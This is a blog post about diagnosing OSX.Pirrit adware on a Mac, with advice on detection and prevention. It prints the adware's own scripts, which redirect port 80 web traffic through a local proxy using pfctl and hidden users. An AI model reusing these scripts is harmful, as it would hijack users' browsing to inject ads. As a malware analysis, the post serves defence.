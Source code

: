 +++
slug = "a-nasty-mac-virus"
date = "2016-07-09T15:36:52+02:00"
description = ""
draft = false
tags = []
title = "A Nasty Mac Virus, or How I Learned To Love the App Store"
topics = []

+++

Some time ago my little sister complained that her MacBook was getting slow,
and had frequent freezes, to the point it was barely usable any more.

She also was seeing many ads when browsing, even though she had an ad blocker
instead.

So I lend her my own laptop while I kept hers to investigate.

Here's what happened next ...

<!--more-->

# Mysterious processes

In order to investigate the freezes, I start `htop`[^1] to have a look
at the processes that are running.

I see a bunch of scripts running (as root), and some other
processes running with weird user names:

```text
root          /bin/sh  /etc/branchiosaurian.sh
instroke      /Library/branchiosaurian/Contents/MacOS/branchiosaurian
```

Googling "branchiosaurian virus MacOS" or "instroke user name" leads to nowhere.

# Strange scripts

The process are running from a strange location: it's rare to see `*.sh` scripts
in `/etc`, usually `/etc` is only used for configuration files.

So I decide to see how many there are in `/etc`:


```text
$ ls /etc/*.sh
/etc/Dicyemida.sh*
/etc/Fulah.sh*
/etc/Gothism.sh*
/etc/audile.sh*
/etc/axogamy.sh*
/etc/bacteriohemolysin.sh*
/etc/branchiosaurian.sh*
/etc/duello.sh*
/etc/entry.sh*
/etc/gallflowerUpd.sh*
/etc/hemodystrophy.sh*
/etc/lichenlike.sh*
/etc/overreach.sh*
/etc/retinene.sh*
/etc/run_upd.sh*
/etc/sidereally.sh*
/etc/tealess.sh*
/etc/thiocyanide.sh*
/etc/unwittingly.sh
```

All the scripts look the same, only the weird names
for the process and the user are different:

```bash
if [ -a /Library/branchiosaurian/Contents/MacOS/branchiosaurian ];
then
  sleep 10
  sudo pfctl -evf /etc/branchiosaurian.conf
  sudo -u Benjy /Library/branchiosaurian/Contents/MacOS/branchiosaurian
fi
exit 0
```

Each of them has a matching folder in `/Library/<name>`

`/Library/<name>/Contents/MacOS/<name>` is a Mach-O C++ executable, with
dependencies on Qt4 frameworks stuff (`Qt4Core`, `QtGui` and `QtNetwork`)
in `Contents/Frameworks`, like any `Qt` application.

(Except they are in `/Library` and not `/Applications` ...)


There's also a script in `Contents/MacOS/rec_script.sh` which contains:

```bash
# set redirections
HIDDEN_USER=$(sudo defaults read /Library/Preferences/com.common.plist user_id)
echo $HIDDEN_USER

activeInterface=$(route get default | sed -n -e 's/^.*interface: //p')
if [ -n "$activeInterface" ]; then
    pfData="rdr pass inet proto tcp from $activeInterface to any port 80 -> 127.0.0.1 port 9882\n\
    pass out on $activeInterface route-to lo0  inet proto tcp from $activeInterface to any port 80 keep state\n\
    pass out proto tcp all user "$HIDDEN_USER"\n"
    echo "$pfData" > /etc/pf_proxy.conf
else
    echo "Unable to find active interface"
    exit 1
fi

exit 0
```

And a configuration file in `/etc`

```text
$ cat /etc/branchiosaurian.conf
rdr pass inet proto tcp from en1 to any port 80 -> 127.0.0.1 port 9882
pass out on en1 route-to lo0  inet proto tcp from en1 to any port 80 keep state
pass out proto tcp all user indianaite
```


Finally, a `ps aux` shows a `pfctl` processes running like this:

```text
pfctl -evf /et/<name>.conf
```


So there are a bunch of processes doing something with the network, re-rooting
traffic going through the `80` port to somewhere else. This can't be good ...


# First clue

Confused, I run the only thing I can think of:

```text
$ strings /Library/branchiosaurian/Contents/MacOS/branchiosaurian
...
AdsProxyEngine
userDisabledProxy()
...
```

Ahah! Googling `virus mac AdsProxyEngine` leads to reddit thread:
*[Ever heard of the process uncontainable?](
https://www.reddit.com/r/apple/comments/4g4pup/ever_heard_of_the_process_uncontainable/)*

There's a confused Mac user who is seeing processes with weird names too:
(Here, a `uncontainable` process is running as the `razoredge` user)

# Following the links

Reading the thread leads to the following pages, which explain everything:

* [Analysis of an Intrusive Cross-Platform Adware: OSX/Pirrit](
https://objective-see.com/blog/blog_0x0E.html)

* [Cybereason Labs Analysis: The Minds Behind the OSX.Pirrit Malicious Adware](
  http://www.cybereason.com/cybereason-labs-analysis-the-minds-behind-the-osx-pirrit/)

Here's a quick summary:

1. The virus is known as "OSX.Pirrit": it started as a Windows
   program, and then ported to Mac.

2. The virus installs a program well hidden which intercepts traffic to external
   websites in order to insert ads. That's what causes the freezes, and the fact
   that AdBlock does not seem to work. It's called an "adware" (a portmanteau
   word from "ads" and "software")

3. Fortunately for us, one of the programmers made the mistake of packaging the
   software on its own machine using `tar`, which records the user name and the
   date. That's how the researchers from Cybereason were able to find woh's
   behind the adware: a guy working for TargetingEdge, a "online marketing"
   company.

4. Quoting the article from Cybereason:

> The adware's creators removed the original installers for MPlayerX, NicePlayer
> and VLC, legitimate media players that people can easily download, and replaced
> them with an installer that has OSX.Pirrit as well as the media player.


I knew that my sister had installed MPlayerX, so I looked around, and even
found a thread where someone says that the MPlayerX author himself was offering
the adware bundled with the installer on his web site.
(It's a rumour, no way for me to check if this is true ...)

# Lessons learned

* You can create hidden users on mac (it only takes a few tricks with the
  preferences of the login window)

* You can use `dscl` to display user names (`/etc/passwd` won't help):

```text
$ dscl . -list /Users UniqueID
```

  By the way, that's how you can check whether you are infected with this virus
  or not: the names change, but the user numeric ID is hard-coded and is always
  401 ...

* Using random names from `/usr/share/dict/words` to name things makes it really
  hard to find clues using a search engine. (And this file is guaranteed to
  exist on any Mac version!)

* If you create a malware, take the time to strip the executable and obfuscate
  the source code&nbsp;;)

* Also, don't package it on your own machine with your regular account!

* Even if MPlayerX is free, you can buy it from the Apple Store for less than
  2 euros, and it's much safer: you know that Apple has audited the software,
  it's signed, so you know where it comes from, and you don't even have to open
  a web browser and risk downloading stuff from the wrong place.
  (Note that you still have to trust Apple ...)

* If you can't accept the fact that you're gonna have to pay even if you use
  free or open-source stuff on Mac, well, switch to Linux :) There's a great
  article explaining why this kind of nasty stuff can't happen if you use the
  packages provided by your distribution: *[Why Maintainers Matter](
  http://kmkeen.com/maintainers-matter/)*

# Next steps

First, I'm going to reformat and re-install the operating system using
[DiskMaker X](http://diskmakerx.com/), but I don't really know what to tell my
sister so this does not happen again.

Don't tell me to install an antivirus, I know [it won't work](
http://www.ranum.com/security/computer_security/editorials/dumb/)

People tell me there's a GUI from `homebrew`, I'll try that, but if you have
some ideas, (besides only using the Apple Store for now), I'd love to
[hear from you]({{< ref "pages/feedback.md" >}})

There's also the option of only allowing apps from the AppStore
(not even those which are signed with a developer key)


[^1]: Yup, `htop` works really well on Mac too since the 2.0 version. You can learn more about this here: *[How htop Was Made Portable](https://www.youtube.com/watch?v=g5GamptmWeA)*
